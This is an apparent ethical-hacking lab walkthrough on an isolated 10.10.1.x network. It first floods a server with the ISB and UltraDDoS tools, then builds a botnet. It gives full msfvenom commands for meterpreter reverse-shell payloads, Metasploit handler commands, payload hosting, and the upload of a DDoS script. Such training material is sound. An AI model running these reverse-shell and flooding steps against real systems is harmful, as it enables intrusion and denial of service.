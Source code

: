 
## Perform a DDoS Attack using ISB and UltraDDOS-v2

to switch to the **Windows** machine. Navigate to DoS and DDoS Attack Tools\ISB and double-click **ISB (Im So Bored).exe**

ISB window appears, using this tool we can perform various attacks such as **HTTP Flood**, **UDP Flood**, **TCP Flood**, **TCP Port Scan**, **ICMP Flood**, and **Slowloris**. Additionally, we can gather **Target Info** using the **WHOIS**, **NS**, **TRACEROUTE**, **BROWSER**, **PING** options present in the tool

Here, we will perform **TCP Flood** attack on the target **Windows 2019** machine. To do so, enter the IP address of the **Windows 2019** in the **URL:** field (here, **10.10.1.**), port number (here, **80**) in the **Port:** field and click on **Set Target**

The IP address of Windows Server 2019 along with the port number appears in the **Set:** field

Now, under **Attacks** navigate to **TCP Flood** tab and type **10** in the **Interval** field, **256** in the **Buffer** field and **1000** in the **Threads** field

to switch to the **Windows 2022** machine

In **Windows Server 2022** machine, navigate to DoS and DDoS Attack Tools\UltraDDoS and double-click **ultraddos.exe** file

A **Command Prompt** window appears, in the **Ultra DDOS v2** window, click **OK**

In the **Ultra DDOS v2** window, click on **DDOS Attack** button

In the **Please enter your target. This is the website or IP address that you want to attack.** field, type **10.10.1.** (IP address of **Windows 2019** machine) and click **OK**

In the **Please enter a port. 80 is most commonly used, but you can use any other valid port**. field, enter **80** and click **OK**

In the **Please enter the number of packets you would like to send. More is better, but too many will crash your computer**. field, type **1000000** and click on **OK**

In the **Please enter the number of threads you would like to send. This can be the same number as the packets.** field, type **1000000** and click on **OK**

In the **The attack will start once you press OK. It will keep going until all requested packets are sent**. pop-up window, click **OK**

In the **The attack will start once you press OK. It will keep going until all requested packets are sent**. pop-up window, click **OK**

As soon as you click on **OK** the tool starts DoS attack on the **Windows Server 2019** machine

to switch to the **Windows 11** machine, and in the **ISB** window click on **Start Attack** button

to switch to the **Windows  2019** machine

Now, click **Type here to search** field on the **Desktop**, search for **resmon** in the search bar and select **resmon** from the results

**Resource Monitor** window appears, you can see that the CPU utilization under **CPU** section is more than **80%**, thereby, resulting in deterioration of system performance

## Perform a DDoS Attack using Botnet

to switch to the **Parrot** machine. Open a **Terminal** window and execute **sudo su** to run the programs as a root user (When prompted, enter the password **toor**)

Run the command **msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=6969 -f exe > exploit1.exe** to generate **exploit1.exe** payload

Similarly, run the above command with different **port number** and **exploit name.**

- For Windows 11 -> port 6969, exploit1.exe
- For Windows Server 2019 -> port 9999, exploit2.exe
- For Windows Server 2022 -> port 5555, exploit3.exe

Create a new directory to share the **exploits** file with the target machine and provide the permissions using the below commands:

- Run **mkdir /var/www/html/share** command to create a shared folder
- Run **chmod -R 755 /var/www/html/share/** command
- Run **chown -R www-data:www-data /var/www/html/share/** command

Copy the payloads into the shared folder by executing **cp exploit1.exe exploit2.exe exploit3.exe /var/www/html/share/** command

Start the Apache server by running **service apache2 start** command

Launch three new terminals and run command **sudo su** with password as **toor** on all

Run **msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 10.10.1.13; set lport 6969; run"** command to launch Metasploit Framework on terminal 1

Similarly, run the above command on **terminal 2 and 3** by changing the **lport to 9999 and 5555** simultaneously

to switch to the **Windows 11** machine

Open any web browser (here, Mozilla Firefox) go to **http://10.10.1.13/share**. As soon as you press enter, it will display the shared folder contents

Click on **exploit1.exe** to download the file

Navigate to **Downloads** and double-click the **exploit1.exe** file to run it

Similarly, download **exploit2.exe** on **Windows Server 2019**, and **exploit3.exe** on **Windows Server 2022** and run it

After executing all the exploits on machines, click [Parrot Security](https://labclient.labondemand.com/Instructions/275d566b-1c4f-4289-aa4f-2019fd73f14b#) to switch to the **Parrot Security** machine

The meterpreter session has successfully been opened, as shown in the screenshots

Now, we will upload the DDoS script to our botnets, in windows shell terminal execute command **upload /home/attacker/Downloads/eagle-dos.py** and run **shell** command

Run the DDoS file using command **python eagle-dos.py** on windows shell terminal. It will ask for Target's IP, type **10.10.1.9** and hit enter

to switch to **Ubuntu** machine. Now, let us verify if the DDOS using Wireshark where we should be able to see packets from **10.10.1.11, 10.10.1.19 and 10.10.1.22** which are our botnets. Open terminal and run command **sudo wireshark**, enter **toor** as password and double click on **eth0** to start capturing

Wait for **5-6 minutes**, then click on **Show Applications** and search for and launch **System Monitor**. In the **System Monitor** window, observe the memory usage. In this case, it is 98.7%, which slows down Ubuntu machine and also makes it unresponsive

